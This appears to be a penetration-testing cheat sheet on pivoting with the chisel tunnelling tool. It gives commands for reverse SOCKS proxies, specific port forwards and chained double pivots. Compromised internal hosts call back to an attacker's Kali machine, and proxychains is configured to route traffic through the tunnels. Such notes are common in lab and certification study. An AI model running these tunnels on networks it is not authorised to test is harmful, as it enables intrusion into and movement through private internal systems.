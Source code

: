 ```yaml
---
category: Uncategorized
tags: []
---
```

chisel
~~~cmd
#172.16.40.5
./chisel_amd64 server -p 5555 --reverse &
#10.90.60.80
./chisel client 172.16.40.5:5555 R:socks &
~~~
************************************************************
SPECIFIC PORT FORWARDING
~~~cmd
#1Pivot 10.90.60.80:
chisel server -p 8888 -reverse
#2Pivot 10.185.10.34
chisel client 10.90.60.80:8888 R:9001:10.185.11.127:80
kali 172.16.40.5
chisel server -p 8000 -reverse
#1Pivot 10.90.60.80
chisel client 172.16.40.5:8000 R:8001:127.0.0.1:9001
~~~
************************************************************
************************************************************
DYNAMIC PORT FORWARDING
~~~cmd
#Kali - 172.16.40.5
./chisel_amd64 server --socks5 -p 9001 --reverse &
#1Pivot - 10.90.60.80
./chisel_386 client 172.16.40.5:9001 R:9999:socks &
./chisel_386 server --socks5 -p 9002 --reverse &
#2Pivot - 10.185.10.34
./chisel.exe client 10.90.60.80:9002 R:9998:socks
#Kali
#Modify proxychains to have the following:
socks5 127.0.0.1 9999
socks5 127.0.0.1 9998
~~~
************************************************************
